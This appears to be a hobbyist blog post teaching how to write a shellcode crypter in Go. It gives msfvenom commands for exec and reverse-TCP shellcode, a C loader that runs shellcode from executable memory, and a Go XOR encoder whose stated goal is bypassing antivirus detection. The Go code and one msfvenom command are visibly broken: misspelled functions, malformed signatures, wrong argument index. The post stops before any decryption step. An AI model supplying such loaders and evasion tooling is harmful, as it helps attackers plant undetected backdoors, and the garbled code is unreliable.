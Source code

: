 ```yaml
---
layout: post
title:  "Writing a Custom Shellcoder Encrypter - First Post by Zero++;" 
---
```


In this blogpost we will write an custom Shellcode Cryptor in go. 

## But what exactly is Shellcode?
Shellcode is a combination of binary instruction that will be executed on cpu.
Shellcode can be used for everything, to spawn a reverse shell, to execute a program, to obtain a file descriptor or whatever.
We 1337-heckers use Shellcode because its independent, minimalistic, easy to hide and obfuscate and also perfect to inject into processes.
Shellcode can be written by Hand which is very difficult and not recommended by me, i would recommend to extract Shellcode from Assembly or any compiled programs.  

## Requirements to follow this Blog
This tutorial is for Linux but the Shellcode encoding works same on any Operating System, only the process of execution is different.
In this tutorial we will use Metasploit's msfvenom to generate the Shellcode, C and mmap (a Linux systemcall) to make the Shellcode executable.
Shellcode itself is not Executable, data has to be in a specific file format like ELF (used by Unix and Linux for binaries, shared libraries etc.) or the more famous one PE (Portable Executable the file format used by windows for .exe and .dll files) to be executable. Thats why we will use C to make our Shellcode executable inside our program. I highly recommend to use gcc (the gnu compiler collection) or clang to compile your C Code. The go toolchain is also required.


## Generating our first Shellcode  
In this blogpost we will use ```/tmp/blog/``` as workspace.
We will generate Unencrypted Shellcode in C format (later we will use the raw format).
The Shellcode we will generate with msfvenom will execute the "ls" program.
The -b option is for avoiding bytes, in Shellcoding on **x86** we always have to avoid 
NULL-BYTES because it will make our Shellcode stop working (i will not go into depth here).
With specifying ``` -f c ``` we use the C format, it will output a C-bytearray which is just a normal array and can easily just get copied and pasted.  

```bash
# create and navigate to workspace 
$ sudo su
$ mkdir /tmp/blog
$ cd /tmp/blog
# generate and show Shellcode 
$ msfvenom -p linux/x86/exec CMD="ls" -f -b "\x00" c -o raw.txt 
$ cat raw.txt

```
# Executing the Shellcode in C
Now copy the output of ```cat raw.txt``` into the C code down below here and replace your output with the "bytes" array", the has to be renamed to "bytes".
After its done it should look like this.

```c
#include <stdio.h>    /* standard input/output */
#include <string.h>   /* used for memcpy */
#include <sys/mman.h> /* header for mmap syscall and flags */

unsigned char bytes[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73"
"\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x03\x00\x00"
"\x00\x6c\x73\x00\x57\x53\x89\xe1\xcd\x80";

int main() {
	/* allocate a memory map */
	void* region = mmap(NULL, 

			sizeof(bytes),
			PROT_WRITE | PROT_EXEC,
			MAP_ANONYMOUS | MAP_PRIVATE,
			-1,
			0);
	/* check for error */
	if(region == MAP_FAILED) {
		perror("mmap");
		return 1;
	}
	
	/* copy shellcode into allocated memory page*/
	memcpy(region, bytes, sizeof(bytes));
	
	/* debug message */
	printf("executing %d bytes shellcode using mmap system call\n", sizeof(bytes));

	/* executing the shellcode via function pointer */
	((int(*)())region)();
	
	/* deallocate the memory */
	munmap(region, sizeof(bytes));
	return 0;
}
```

## Notes and Compiling the Program
This blog is not a C course you already should be familiar with the C language.
I will compile the program with the following command 
```gcc -m32 file.c -o runme && ./runme```
The -m32 option stands basically for 32 bit make sure you have gcc-multilib installed to be able to use the 32-bit headers. After Compiling and 
executing the program we should get following output:
```bash
executing 39 bytes shellcode using mmap system call
file.c	raw.txt  runme
```
as we see the c code and the Shellcode execute "ls", thats why it listed the files down below there.

## Generating Reverse-Shell-Shellcode with msfvenom
Now we will generate Shellcode which will spawn a Reverse-Shell.
To run the Shellcode you have todo the same as before, just copy the output, paste, rename the array, compile and run.
```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=127.0.0.1 LPORT=8089 -b "\x00" -f c -o raw.txt 
```
For some reason msfvenom used shikata_ga_nai, but i didnt specify to use it which was really suprising for me. If we now upload the backdoor to VirusTotal it will be detected as we see here.

![VirusTotal Screenshot](https://github.com/calloczero/calloczero.github.io/blob/main/_images/crop.png?raw=true)

# Writing an Encryptor to obfucate and bypass Antivirus-Software    
```go 
package main /* package declaration */
import (
	"io/ioutil"
	"strconv"
	"fmt"
	"os"
	)

/* read bytes raw bytes */
func ReadBytes(filepath string) (fbytes []byte) {
	fbytes, err := ioutil.Readfile(filpath)
	if err != nil {
		fmt.Fprintf(os.Stderr, "[*]Could not read file\n")
	}
	return 
}

/* xor bytes */
func XorBytes(data byte[]), key byte) []byte {
	for i, v := range data {
		data[i] = v ^ key
	}
	return data
}

func PrintByteArray(data []byte) {
	for i, v := range data {
		if i%15 == 0 && i != 0 {
			fmt.Println("")
		}
		fmt.Printf("\\x%x", v)
	}
	fmt.Println("")
}

func main() {		
	/* check if commandline arguments given */
	if len(os.Args) < 3 {
		fmt.Fprintf(os.Stderr, "[*]Usage: <raw.txt> <key>\n")
	}
	
	/* read shellcode */
	fbytes := ReadBytes(os.Args[1]) 
	
	/* encode bytes */
	fbytes := XorBytes(fbytes, strconv.Atoi(os.Args[3]))


}


```
















